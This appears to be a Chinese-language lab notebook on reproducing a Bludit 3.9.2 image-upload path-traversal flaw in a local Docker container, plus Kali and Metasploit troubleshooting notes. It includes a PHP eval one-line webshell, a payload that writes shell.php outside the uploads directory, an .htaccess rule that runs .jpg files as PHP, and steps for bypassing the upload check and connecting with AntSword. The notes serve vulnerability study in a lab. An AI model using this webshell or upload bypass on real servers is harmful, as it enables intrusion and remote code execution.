







# 漏洞复现记录

- php相关

  - file_put_contents() 把一个字符串写进文件文件

    ```php
    <?php file_put_contents("../../uploads/shell.php","<?php phpinfo();?>");?>
    ```

    把<?php phpinfo();?>写入shell.php

    ```
    ./ 当前目录
    ../ 父级目录
    / 根目录
    ```

    疑问：**为什么../../**

    原因：通过查看docker hub上的builds记录，上的dokcerfile猜测上传图片的位置是在`/usr/share/nginx/html/bl-content `,经过验证发现是在`/usr/share/nginx/html/bl-content/uploads/pages/uuid`，所以是../../回到content目录。

  - phpinfo()：查看php信息

    <?php phpinfo();?>

  - .htaccess文件

    -  全称是Hypertext Access(超文本入口) ，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录 

    - 文件内容:让.jpg文件可以执行php程序

      ```php
    RewriteEngine off
      AddType application/x-httpd-php.jpg
      ```
      
    - **RewriteCond %{REQUEST_FILENAME} !-f**
     \#如果文件存在，就直接访问文件，不进行下面的RewriteRule.(不是文件或文件不存在就执行重写)
    
    **RewriteCond %{REQUEST_FILENAME} !-d**
       \#如果目录存在就直接访问目录不进行RewriteRule
     **RewriteRule ^(.*)$ index.php/$1 [QSA,PT,L]**
       \#对于所有的（ ^(.*) ）加上 “index.php/”  拼接为index.php/XXX( ^(.*) )，
     追加请求串（QSA）移交给下一个处理器 pass through（PT（可不是代理为MIME类型，PT是一个flage）），而且这是 last最后的rules（L）的 。
  
  - 连接shell：[一句话木马]( https://bbs.ichunqiu.com/thread-17816-1-1.html )

    -  `<?php @eval($_POST['pw']); ?>` 

      1. `$_POST['pw']`意思是a这个变量是用post的方法接受。

      2. `eval()`把字符串作为PHP代码执行

         例如: eval("echo 'a'");其实就等于直接 echo 'a'; 

      3. 这句话的意思就是： 用post方法接收变量pw,把变量pw里面的字符串当做php代码来执行 。

  - 查看端口占用问题：
  
    `sudo netstat -anp`，不给sudo不给查看全部
  
    结束进程：`sudo kill -9 [pid]`
  
    
  
    

#### 容器构建

- 本地构建镜像

  `	sudo docker build -f Dockerfile -t bludit:v3.9.2 .`

  `sudo docker run --name bludit -p 8000:80 -d bludit:v3.9.2`

- dockerhub镜像

  `sudo docker pull bludit/docker:3.9.2`

  `sudo docker run --name bludit -p 8000:80 -d bludit/docker:3.9.2`

- docker hub上有[bludit3.9.2]( https://hub.docker.com/r/bludit/docker/builds )(有漏洞版本)的dockerfile。

  

#### 本地漏洞复现

- 漏洞成因，根据发布者的漏洞利用过程，此漏洞是再上传图片的时候会把图片的uuid作为一段路径，代码中没有检查uuid是否合法，导致上传webshell可以随便修改上传路径。
- 利用效果：获得对方shell
- **[复现过程](https://www.anquanke.com/post/id/197105)**

1. 容器起来以后本地访问，本地安装，用户管理员身份登录或者以用户身份登录。

2. 点击`撰写新文章`，点击`图片`按钮，上传图片。

3. 同时用brupsuite拦截请求，修改`uuid`，进入容器查看能看到图片文件上传成功。

   

4. 再上传`.htaccess`文件让图片执行,提示是不能上传成功，文件类型不正确，进入容器后发现确实没有上传成功

   

   

   

5. 图片不能执行php代码

   

6. 用brupsuite拦截请求修改文件扩展名，可以直接上传php文件，再浏览器访问上传的php页面`http://192.168.56.102:8001/admin/bl-content/tmp/2.php`出现[`no file input  specified `]( https://blog.51cto.com/xiahongyuan/852424 )，尝试在容器访问其他类型的文件`jpg` `txt`，是出现404错误。

   

7. 修改了一下源码`.htaccess`中x·的代码，不让它进行路由重写，没有效果。初步**猜测是**`.htaccess`文件没有生效，apache服务的httpd.config，文件的[AllowOVerride]( https://www.jianshu.com/p/81305ca91ebd ) 没有启用。

   **然后根据dockerfile可以看出容器用到的是ngix服务，下面是容器内一些ngix配置文件。**

   

8. 试着更改了一下访问路径`http://192.168.56.102:8001/bl-content/tmp/1.php`，然后发现可以加载出 `phpinfo()`这个页面，shell还是连不上

   

   用菜刀连接shell，200证明可以访问成功的，还是连接不了shell

   

9. 换了一下连接shell的工具[**中国蚁剑**]( https://github.com/AntSwordProject/AntSword )，能够利用成功了，成功获得shell。蚁剑是开放源代码的，功能比菜刀更加强大。

   

#### matesploit利用（未成功）

[matesploit]( https://www.exploit-db.com/exploits/47699 )

需要更新matesploit（v5.0.41-dev->v5.0.80-dev）

- 在自己手动增加模块的时候出现了错误

  尝试解决办法: 

  1. 重启数据库 
  
   	2. msfdb init 
        	3. [postgresql数据库未在端口5432上进行侦听]( https://kb.help.rapid7.com/discuss/59949cbc078ec3000f0d5b8f ) 
           	4. [Metasploit缺少MetasploitC lass兼容性错误]( https://github.com/VKSHRIMALII/metasploitclasscerror )
  
  


#### 问题

- 问题1：kali安装不上的问题再下载grub的时候失败

  解决：分的磁盘空间太少，一开始试默认的8g，改成15g就可以了

  kali的登录账户名是root用户

- 问题2：kali开两个网卡nat网卡没有ip

  解决：只保留Nat转换网络，使用端口转发，转发到主机端口，通过`ssh root@127.0.0.01 -P 11222`即可登录

- 问题3：没有需要的matesploit模块

  解决：1. matesploit更新

  ​		    2. 手动增加模块

- 问题4：能够确定可以上传含恶意代码的webshell.jpg，但是上传不了.htaccess文件，然后通过，url链接下载了3.9.2版本的源码，然后发现代码已经修改了，对文件扩展名进行了过滤。根据commit记录试图把修改的代码改回来，发现修改后不能上传文件了。

  测试方式:修改源码从本地构建镜像

- 新起的容器无法完成安装和登录

  解决：硬盘内存满了，清理磁盘

  1. 查看磁盘空间`df -h`
  2.  apt-get autoclean：*清理*旧版本缓存 
  3.  apt-get clean：*清理*所有缓存 
  
  

- 容器扩容

# 参考

[中国蚁剑--比菜刀更牛的shell控制端 ]( https://www.3hack.com/tools/17.html )